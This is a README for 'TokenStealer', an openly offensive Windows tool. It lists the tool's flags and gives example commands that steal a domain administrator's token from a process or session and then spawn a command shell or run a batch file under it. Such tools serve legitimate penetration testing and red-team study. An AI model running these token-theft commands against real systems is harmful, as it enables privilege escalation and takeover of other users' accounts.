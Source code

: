 # TokenStealer
A simple tool I wrote some time ago for stealing and playing with Windows tokens.<br>
Parts of code have been taken and adatpted from https://github.com/FSecureLABS/incognito
<br>
Clearly, you will require Impersonation or AssignPrimary privilege and Debug privilege to access all processes.<br>
Typically, you would run the tool with the highest local privileges, such as SYSTEM.
<br><br>
```
TokenStealer.exe
[+] My personal simple and stupid  Token Stealer... ;)
[+] v1.0 @decoder_it 2023

[!] Usage:
         -l: list all user's token
         -e: list all user's token with extended info -> [user]:[token_level (2)=Impersonation, (3)=Delegation,(P)=Primary>]:[pid]:[SessionId]
         -p: <pid> list/steal  token from specfic  process pid
         -u: <user> list/steal token of user
         -c: <command> command to execute with token 
         -t: force use of impersonation Privilege 
         -b: <token level> needed token type: 1=Primary,2=Impersonation,3=Delegation 
         -s: <SessionId> list/steal token from specific Session ID

=Examples=

TokenStealer.exe -e -b 1 
-> list all primary tokens

TokenStealer.exe -l -p 100
-> list all tokens in process pid 100

TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe
-> steal token of the user and execute an interactive  command shell using the AssingPrimary privilege if available

TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\bind.bat  -p 100 -t
-> steal token of the user in process 100 and execute the batch file using Impersonation privilege instead of AssingPrimary

TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe -b 1
-> steal a primary token of the user and execute an interactive  command shell using the AssingPrimary privilege if available

TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe -s 2
-> steal a token of the user in specific SessionID and execute an interactive  command shell using the AssingPrimary privilege if available

```
<img src="https://github.com/decoder-it/TokenStealer/blob/master/Capture.PNG" alt="Alt text" title="Optional title">




